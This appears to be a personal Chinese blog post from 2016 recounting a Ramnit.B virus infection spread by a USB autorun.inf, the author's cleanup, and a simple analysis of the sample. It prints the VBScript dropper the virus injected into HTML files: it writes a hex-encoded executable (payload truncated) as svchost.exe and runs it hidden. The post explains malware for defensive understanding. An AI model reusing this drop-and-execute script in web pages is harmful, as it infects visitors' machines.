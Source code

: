 ```yaml
---
layout: posts
title: 对病毒Virus.Win32.Ramnit.B的研究
createTime: 2016-07-18
---
```


## 不作死就不会死
前一段时间在折腾电脑。由于我嫌开的进程多了有点卡，就把Windows Defender给关闭了，关掉后果然很快。有一次要用U盘，插上后发现图标变成文件夹了，顿时感觉不太对劲，糟了！cmd进去dir一下，果然有个autorun.inf，里面指向了一个在U盘根目录下RECYCLED文件夹内一个隐藏文件夹里的可执行文件，文件名还是一串字母！完蛋，中招了。用WinRAR把那个可疑文件打包留作样本，在线杀毒，果然是病毒。我自认为水平还不错，不想重装系统，于是就踏上了一条漫长的杀毒路。



## 土法全盘杀毒
从U盘PE启动电脑，用360急救箱全盘杀毒。虽然前几年360流氓过一阵子，但最近奇虎公司不景气，产品也就没敢那么流氓（猜测），总之是很好用的。睡前挂上全盘扫描，醒来一看：
![扫描结果](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230917419-1449863200.png)

反复杀了几次毒，直到不再有病毒查出。重启由硬盘引导，装上360卫士和杀毒，再查一遍，竟然查出我的网页文件也有毒（后文会详细说到）。幸亏我开了系统还原，还原到两天前的版本，问题解决。最后把这些杀毒软件统统请出硬盘，打开Windows Defender，世界又重归宁静。



## 对病毒样本的深入研究
这是从U盘中捕获的病毒样本：

![样本](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230922591-1044069392.png)

体积很小，那个autorun.inf是自动播放配置文件，病毒就是利用它传播的。上传到某在线杀毒网站检测：
![检测结果1](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230929809-361428692.png)

![检测结果2](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230933325-1268121088.png)
![检测结果3](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230937684-495119374.png)
![检测结果4](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230940622-1194387489.png)

由于我不是什么高级用户，也就无法查看更多的信息。不过仅凭这些表现，我们就可以知道它是一个功能全面的后门程序。首先，它可以寄生在可执行文件中（文件行为·2）；然后通过网络获取控制者的命令，之后的推广软件、盗号、各种门事件就顺理成章了。除此之外，它还自带反虚拟机功能，用以躲避试验。
除了这些，我刚刚提到过它会感染我的网页文件（*.html;*.htm）：
![网页文件感染前后](http://images2015.cnblogs.com/blog/585442/201607/585442-20160730230944466-1673405399.png)

这是我的一个网页文件在感染前后的对比。查看被感染后的文件，我在它们的末尾发现了这些奇怪的东西：

	<SCRIPT Language=VBScript><!--
	DropFileName = "svchost.exe"
	WriteData = "4D5A90000300000004000000FFFF0000B80000000000000040000000000000000000000000000000000000000000000000000000000000000000000000010000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
	……（此处略）
	5616C467265650000004578697450726F636573730000004472616746696E697368000057696E48656C705700000000000000000000"
	Set FSO = CreateObject("Scripting.FileSystemObject")
	DropPath = FSO.GetSpecialFolder(2) & "\" & DropFileName
	If FSO.FileExists(DropPath)=False Then
	Set FileObj = FSO.CreateTextFile(DropPath, True)
	For i = 1 To Len(WriteData) Step 2
	FileObj.Write Chr(CLng("&H" & Mid(WriteData,i,2)))
	Next
	FileObj.Close
	End If
	Set WSHshell = CreateObject("WScript.Shell")
	WSHshell.Run DropPath, 0
	//--></SCRIPT>

这个VB脚本就是用来释放病毒的。为了避免在某些不支持这类脚本的浏览器上显示出来，病毒设计者还别出心裁地在脚本前后加上了html的注释符“<!-”和“->”。



## 其他的专业分析
我还在[Microsoft](http://microsoft.com)上看到一些对此类病毒的分析：
+ [Virus: Win32/Ramnit.A](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=Virus%3aWin32%2fRamnit.A)
+ [Virus: Win32/Ramnit.B](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=Virus:Win32/Ramnit.B#tab=1)
+ [Trojan: Win32/Ramnit.C](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=Trojan%3aWin32%2fRamnit.C)
+ [Virus: Win32/Ramnit.I](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?Name=Virus%3aWin32%2fRamnit.I)

它们都是一类病毒，有时会同时感染多种。比方说，我就同时感染了Ramnit.A和Ramnit.B。



## 个人观点
直到现在我的一些软件所带的html文件仍然被感染。虽然常见的杀毒软件均可杀查（360直接删文件，360急救箱不完美修复，MSE完美修复），但想要根除仍很麻烦，似乎全盘格式化才是最快的方法。


